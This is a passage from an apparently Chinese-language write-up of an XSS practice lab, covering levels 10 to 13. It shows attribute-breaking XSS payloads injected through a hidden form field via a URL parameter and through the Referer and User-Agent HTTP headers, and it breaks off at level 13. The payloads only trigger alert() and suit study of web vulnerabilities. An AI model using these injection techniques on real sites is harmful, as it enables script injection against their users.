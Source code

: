 于是传参进入，**规定type为text**显示出来，再注入XSS

```php+HTML
<input name="t_link" value="" type="hidden">
<input name="t_history" value="" type="hidden">
<input name="t_sort" value="" type="hidden">
```

**payload：**

```
?t_sort="type="text" onclick="alert(/2333/)		//url中
?t_sort="type="text" onmouseover="alert(/2333/)
```



### level-11

#### 考点：http头部的XSS注入

#### 思考：

bp抓包，增加新字段，构造http头部Referer

**payload：**

```
Referer: " onmouseover=alert(/2333/) type="text"

Referer: " onclick="alert(/2333/) type="text"
//注意添加位置，不要放在最后就行
```



### level-12

#### 考点：http头部的XSS注入（User-Agent字段）

#### 思考：

与11题类似，注入点更换为User-Agent:

**payload：**

```
User-Agent: " onmouseover=alert(/2333/) type="text"

User-Agent: " onclick="alert(/2333/) type="text
```



### level-13

#### 考点：http头部的XSS注入（Cookie字段）

**payload：**
